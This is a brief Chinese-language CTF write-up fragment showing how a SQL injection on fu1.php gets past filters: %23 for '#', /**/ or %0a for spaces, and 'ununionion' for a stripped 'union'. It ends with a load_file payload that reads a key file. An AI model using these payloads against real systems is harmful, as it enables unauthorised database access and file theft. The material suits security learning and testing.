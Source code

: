 ![upload successful](./images/pasted-812.png)

发现过滤了`#`，尝试用`%23`成功绕过闭合语句
![upload successful](./images/pasted-813.png)
后续为测字段，回显点和读文件，发现过滤了空格，用`/**/`或者`%0a`绕过即可，后面发现union被替换为空，在中间在写一个union即可绕过
```
fu1.php?id=1')/**/order/**/by/**/4/**/%23
fu1.php?id=-1')/**/ununionion/**/select/**/1,2,3,4/**/%23
fu1.php?id=-1')/**/ununionion/**/select/**/1,load_file('/tmp/360/key'),3,4/**/%23
```
成功拿到key